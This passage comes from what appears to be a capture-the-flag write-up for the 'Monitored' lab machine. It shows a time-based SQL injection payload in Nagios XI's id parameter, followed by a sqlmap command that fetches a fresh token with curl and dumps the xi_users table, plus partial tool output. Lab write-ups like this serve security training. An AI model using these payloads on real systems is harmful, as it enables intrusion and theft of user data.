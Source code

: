 Alright! We are getting somewhere. I've tried a simple SQL injection in the ID parameter: `id=3'XOR(if(now()=sysdate(),sleep(5*5),0))OR'` and the response was intriguing:


<img src="../figs/monitored7.png" alt="SQLi endpoint request">

Amazing! It seems we might have a SQL injection here. Let's run SQLMap to test it. One thing I noticed though is that the auth_token can only be used once per request. This means we will need a command to pass a different auth_token for every SQLMap request. To do so, we'll use this `curl -ksX POST https://nagios.monitored.htb/nagiosxi/api/v1/authenticate -d "username=svc&password=XjH7VCehowpR1xZB&valid_min=500" | awk -F'"' '{print$12}'` command to clean the output to just be the token itself, and then run SQLMap with `-T xi_users`, which is the table in Nagios XI that contains users information.

```bash
$ sqlmap -u "https://nagios.monitored.htb/nagiosxi/admin/banner_message-ajaxhelper.php?action=acknowledge_banner_message&id=3&token=`curl -ksX POST https://nagios.monitored.htb/nagiosxi/api/v1/authenticate -d "username=svc&password=XjH7VCehowpR1xZB&valid_min=500" | awk -F'"' '{print$12}'`" --level 5 --risk 3 -p id --batch -D nagiosxi --dump -T xi_users
        ___
       __H__                                                                                                             
 ___ ___[)]_____ ___ ___  {1.7.12#stable}                                                                                
|_ -| . [.]     | .'| . |                                                                                                
|___|_  [(]_|_|_|__,|  _|                                                                                                
      |_|V...       |_|   https://sqlmap.org                                                                             

[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program

[*] starting @ 22:38:17 /2024-01-16/

[22:38:17] [INFO] testing connection to the target URL
you have not declared cookie(s), while server wants to set its own ('nagiosxi=sncb97hqvcq...s60dv5asic'). Do you want to use those [Y/n] Y
[22:38:18] [INFO] checking if the target is protected by some kind of WAF/IPS
[22:38:18] [INFO] testing if the target URL content is stable
[22:38:19] [INFO] target URL content is stable
[22:38:20] [INFO] heuristic (basic) test shows that GET parameter 'id' might be injectable (possible DBMS: 'MySQL')
[22:38:20] [INFO] testing for SQL injection on GET parameter 'id'
```